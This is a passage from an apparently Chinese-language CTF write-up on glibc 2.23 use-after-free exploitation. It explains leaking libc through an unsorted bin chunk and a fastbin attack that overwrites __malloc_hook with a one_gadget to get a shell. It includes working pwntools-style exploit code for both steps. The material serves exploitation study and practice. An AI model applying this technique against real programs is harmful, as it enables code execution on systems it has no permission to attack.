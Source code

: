 ```
`}`
```



## 2.23

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%89%8B%E6%B3%95"></a>利用手法

​ 2.23的UAF是比较经典的利用手法了，此时libc还没有引入tcache结构，仅仅通过fastbin来管理较小的chunk，在libc2.23下可以利用fastbin attack来攻击__malloc_hook来getshell。

​ 具体步骤，是先通过申请一个属于unsorted bin大小的堆块，利用UAF+binary的show功能来泄露libc的基地址，再通过uaf申请满足fastbin大小的chunk，并修改其fd指针，将__malloc_hook周围满足检查的地址链到fastbin中，再次申请相同大小的chunk即可将其取出，修改为one_gadget即可getshell。

​ 修改__malloc_hook的原因是在__libc_malloc中会先于分配过程检查__malloc_hook是否为空，若不为空则调用。__malloc_hook在首次malloc的时候会用作初始化相关的工作来使用，往后其值为0，因为在从fastbin中取chunk的过程中会检查size是否合法，所以要在__malloc_hook周围找出一块合法的地址，经验来说，在__malloc_hook – 0x23的位置处有一个合法的size位，可以用来伪造chunk。

[![](https://p2.ssl.qhimg.com/t01ac4bacb7e68f992f.png)](https://p2.ssl.qhimg.com/t01ac4bacb7e68f992f.png)

### <a class="reference-link" name="exp"></a>exp

​ 泄露LIBC地址

```
add(2, 0x100, '2')
# 申请0x10防止在free 0x100的时候该chunk与top chunk合并
add(3, 0x10, 'protect')
free(2)
add(2, 0x30, 'aaaaaaaa')
# 这里也可以不用申请一个chunk，毕竟有UAF，可以直接show
show(2)
libc = ELF(libc_path)
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - 344 - 0x10 - libc.sym['__malloc_hook']
__malloc_hook = libc_base + libc.sym['__malloc_hook']
success("libc:`{``}`".format(hex(libc_base)))
```

​ fastbin attack

```
# 申请0x60的chunk可以来对应到__malloc_hook-0x23处的size
add(0, 0x60, 'aaaa')
free(0)
# 修改fastbin的fd指针
edit(0, p64(__malloc_hook - 0x23))
add(1,0x60,'a')
og = libc_base + 0xd5bf7
# 申请到__malloc_hook - 0x23，覆写hook的值为one_gadget
add(2,0x60,0x13 * b'\x00' + p64(og))
```
